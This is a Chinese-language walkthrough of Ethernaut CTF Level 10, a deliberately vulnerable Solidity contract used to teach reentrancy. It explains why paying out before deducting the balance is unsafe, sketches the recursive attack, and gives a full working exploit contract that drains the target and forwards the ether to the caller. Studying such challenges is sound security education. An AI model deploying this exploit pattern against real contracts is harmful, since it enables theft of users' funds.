



## Level_10.Re-entrancy

要求：

> 偷完该合约所有资金；

合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Reentrance {
    using SafeMath for uint256;

    mapping(address => uint256) public balances;
    // 捐赠
    function donate(address _to) public payable {
        balances[_to] = balances[_to].add(msg.value);
    }
    // 查询余额
    function balanceOf(address _who) public view returns (uint256 balance) {
        return balances[_who];
    }

    // 取钱
    function withdraw(uint256 _amount) public {
        if (balances[msg.sender] >= _amount) {
            (bool result,) = msg.sender.call{value: _amount}("");
            if (result) {
                _amount;
            }
            balances[msg.sender] -= _amount;
        }
    }

    receive() external payable {}
}
```

### 分析

从题目名字就能看出，是个重入攻击；

一般有重入攻击的合约都是先转账再扣金额的，而且使用的是` addr.call{value}("") `这个转账函数；

```solidity
function withdraw(uint256 _amount) public {
    if (balances[msg.sender] >= _amount) {
        (bool result,) = msg.sender.call{value: _amount}("");
        balances[msg.sender] -= _amount;
    }
}
```

重入攻击就是当用户取款时，在` (bool result,) = msg.sender.call{value: _amount}(""); `这一句后发动重复的攻击，此时合约中存储我们账户余额的` mapping `还没有改动；有点类似递归，一直在调用，但还没返回；

如何来实现攻击呢？

写一个合约，使其有个` withdraw `函数，再来个` receive `函数：

```solidity
// 取款
function attack_withdraw() external {
    // 调用原withdraw
    victim.withdraw(money);
}
// 接收ETH时
receive() external payable {
    victim.withdraw(money);
}
```

1. 我们调用` attack_withdraw() `函数；
2. 调用` victim.withdraw() `取款；
3. 此时ETH到我们的合约上，正好又触发` receive() `函数；
4. ` receive() `函数又调用` victim.withdraw() `函数；
5. 触发` receive() `函数；
6. ...

直到目标合约没钱了；


### 攻击

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;
import "./Ethernaut.sol";

contract Exp {
    Reentrance public re;
    // 给合约赋值，并且donate0.001
    constructor(address payable addr) public payable {
        re = Reentrance(addr);
        re.donate{value:0.001 ether}(address(this));
    }
    // 取款
    function withdraw() external {
        // 调用原withdraw
        re.withdraw(0.001 ether);
        // 此时钱在该合约里，所以需要给我们自己转账
        (bool res, ) = msg.sender.call{value:address(this).balance}("");
        require(res);
    }
    
    receive() external payable {
        re.withdraw(0.001 ether);
    }
}
```

部署合约，并捐赠：



发动重入攻击：



区块浏览器上查阅的详细信息：



